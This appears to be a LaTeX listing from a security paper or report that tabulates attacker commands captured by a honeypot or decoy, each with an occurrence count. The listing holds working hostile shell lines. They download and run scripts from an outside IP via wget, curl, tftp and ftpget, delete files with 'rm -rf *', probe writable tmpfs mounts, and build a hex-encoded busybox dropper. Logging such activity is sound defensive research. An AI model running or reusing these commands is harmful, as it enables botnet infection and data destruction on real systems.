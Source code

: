 \begin{lstlisting}[language=bash,label={lst:log-decoy},caption={Commands Input and Occurrences}]
"chmod +x ./.1917907033382921327/sshd;nohup ./.1917907033382921327/sshd 156.248.78.128 221.203.3.184 101.36.228.201 14.199.52.62 125.87.89.119 122.228.208.32 113.7.221.72 112.4.175.171 116.62.60.152 110.49.99.110 220.181.172.244 147.93.103.172 103.239.252.132 193.233.165.168 111.12.131.236 193.34.212.145 187.141.210.92 36.66.63.125 223.75.204.39 51.91.67.151 45.137.153.111 &";1
"cd /tmp  cd /var/run  cd /mnt  cd /root  cd /; wget http://196.251.114.8/ohshit.sh; curl -O http://196.251.114.8/ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp 196.251.114.8 -c get ohshit.sh; chmod 777 ohshit.sh; sh ohshit.sh; tftp -r ohshit2.sh -g 196.251.114.8; chmod 777 ohshit2.sh; sh ohshit2.sh; ftpget -v -u anonymous -p anonymous -P 21 196.251.114.8 ohshit1.sh ohshit1.sh; sh ohshit1.sh; rm -rf ohshit.sh ohshit.sh ohshit2.sh ohshit1.sh; rm -rf *";1
"tftp; wget; /bin/busybox RTVVD";1
/bin/busybox RTVVD;1
"cat /proc/mounts; /bin/busybox RTVVD";1
"cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox RTVVD";1
"rm .s; exit";1
">/usr/.a && cd /usr/; rm -rf .a";1
">/mnt/.a && cd /mnt/; rm -rf .a";1
">/var/run/.a && cd /var/run/; rm -rf .a";1
">/dev/shm/.a && cd /dev/shm/; rm -rf .a";1
">/etc/.a && cd /etc/; rm -rf .a";1
">/var/.a && cd /var/; rm -rf .a";1
">/var/home/user/fw/.a && cd /var/home/user/fw/; rm -rf .a";1
"for i in `cat /proc/mounts|grep tmpfs|grep -v noexec|cut -d ' ' -f 2`; do >$i/.a && cd $i;done";1
cat /proc/mounts | grep tmpfs | grep -v noexec | cut -d   -f 2;1
"/bin/busybox wget --help; /bin/busybox ftpget --help; /bin/busybox echo -e '\x67\x61\x79\x66\x67\x74';";1
"rm -rf .d; rm -rf .b; >.d; (chmod 777 .d || /bin/busybox chmod 777 .d || cp /bin/sh .d; >.d); >.b; (chmod 777 .b || /bin/busybox chmod 777 .b || cp /bin/sh .b; >.b)";1
"chmod 777 .d || /bin/busybox chmod 777 .d || cp /bin/sh .d ; > .d";1
"chmod 777 .b || /bin/busybox chmod 777 .b || cp /bin/sh .b ; > .b";1
/bin/busybox echo -en '\x53\x3d\x39\x34\x2E\x32\x36\x2E\x39\x30\x2E\x32\x31\x37\x3b\x20\x28\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f'>.d && /bin/busybox echo -e '\x46\x49\x4e';1
/bin/busybox echo -en '\x70\x20\x2d\x4f\x2d\x7c\x7c\x63\x75\x72\x6c\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f\x70\x7c\x7c\x66\x74\x70\x67\x65\x74\x20'>>.d && /bin/busybox echo -e '\x46\x49\x4e';1
/bin/busybox echo -en '\x24\x53\x20\x2d\x20\x70\x7c\x7c\x62\x75\x73\x79\x62\x6f\x78\x20\x77\x67\x65\x74\x20\x68\x74\x74\x70\x3a\x2f\x2f\x24\x53\x2f\x70'>>.d && /bin/busybox echo -e '\x46\x49\x4e';1
"/bin/busybox chmod 777 .d; ./.d > .b; /bin/busybox chmod 777 .b; ./.b matrix";1\end{lstlisting}  

\
\




\newpage





